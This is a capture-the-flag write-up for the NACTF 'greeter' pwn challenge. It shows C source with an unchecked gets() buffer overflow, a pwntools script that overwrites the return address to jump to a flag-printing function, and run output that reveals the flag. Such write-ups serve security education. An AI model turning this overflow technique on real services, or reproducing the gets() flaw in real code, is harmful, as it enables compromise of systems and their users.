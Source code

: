 ## NACTF: greeter [pwn]
> description to be added later

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
	puts("congrats! here's your flag:");
	char flagbuf[64];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL) {
		puts("flag file not found!");
		exit(1);
	}
	fgets(flagbuf, 64, f);
	fputs(flagbuf, stdout);
	fclose(f);
}

int main() {
	/* disable stream buffering */
	setvbuf(stdin,  NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	char name[64];

	puts("What's your name?");
	gets(name);
	printf("Why hello there %s!\n", name);

	return 0;
}
```
#### This was the baby pwn for this ctf, we were provided with the binary along with its source code. Basically there is a buffer overflow vuln and a function that prints out the flag for us. Simply overflow the buffer to overwrite the instruction pointer with the address of win.

```python
from pwn import *

#
p = remote('challenges.ctfd.io', 30249)
print(p.recv())

#: 
exploit = cyclic(72)
exploit += p64(0x401220)
p.sendline(exploit)

print(p.recv())
print(p.recv())
```
```
$ python exploit.py
[x] Opening connection to challenges.ctfd.io on port 30249
[x] Opening connection to challenges.ctfd.io on port 30249: Trying 159.203.148.124
[+] Opening connection to challenges.ctfd.io on port 30249: Done
What's your name?


Why hello there aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa @!
congrats! here's your flag:
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}

[*] Closed connection to challenges.ctfd.io port 30249
```
